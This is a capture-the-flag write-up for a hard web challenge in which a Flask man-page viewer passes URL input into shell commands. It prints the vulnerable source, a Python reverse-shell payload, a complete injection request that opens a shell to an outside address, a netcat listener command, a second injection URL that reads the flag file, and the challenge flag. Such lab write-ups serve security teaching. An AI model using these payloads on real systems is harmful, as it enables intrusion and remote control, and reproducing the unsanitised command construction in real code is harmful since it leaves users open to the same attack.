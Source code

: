# HV20.15 Man Commands, Server Lost

| <!-- --> | <!-- --> |
| --- | --- |
| **Author**     | inik |
| **Level**      | hard |
| **Categories** | `penetration testing`, `web security` |

## Description
Elf4711 has written a cool front end for the linux man pages. Soon after publishing he got pwned. In the meantime he found out the reason and improved his code. So now he is sure it's unpwnable.

### Notes
- You need to start the web application from the `RESOURCES` section on top
- This challenge requires a VPN connection into the Hacking-Lab. Check out the document in the `RESOURCES` section.

### Hints
- Don't miss the source code link on the man page

## Approach

The web application at hand serves man pages over the web. The following source code was supplied:
```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  s ='apropos -s ' + nr + " ."
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```

Looking at the different paths, I decided not to try to abuse the `/search` path as there is some sanitisation done, disallowing some characters. The `/man` path concatenates the input into a file path, which is then used to compose a command line statement. To work around this, some constraints have to be overcome.

The easiest way to attack this application with the goal of getting a reverse shell, is by going for the `/section` path.

### Number 1 - Reverse shell
The following resource is an evergreen for reverse shell payloads and was also used for this challenge: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

The chosen payload was:
```python
import sys,socket,os,pty;s=socket.socket();s.connect(("127.0.0.1",12345));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")
```

The final request looks as follows:
```
https://8a54be8b-5e4d-4a17-8607-afbb1bc35e14.idocker.vuln.land/section/1%20bash%20&&%20python3%20-c%20'import%20sys,socket,os,pty;s=socket.socket();s.connect(("10.13.0.5",6543));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn("sh")'
```

On the client side, I had to start a netcat to receive the shell and look for the file containing the flag - `/flag`:
```bash
nc -nlvp 6543
```

### Number 2 - Command injection
After knowing where the flag was hidden, a simple command injection also did the trick and made the challenge solvable without the need for a reverse shell.
```
https://8a54be8b-5e4d-4a17-8607-afbb1bc35e14.idocker.vuln.land/section/1 bash && cd .. && cd .. && cd ..&& cd ..&& cd ..&& cd ..&& cd ..&& cd ..&& cd ..&&echo 'bla (nop) - tsst' %60cat flag%60
```

## Flag
`HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

## Tools
- BurpSuite
- Chrome
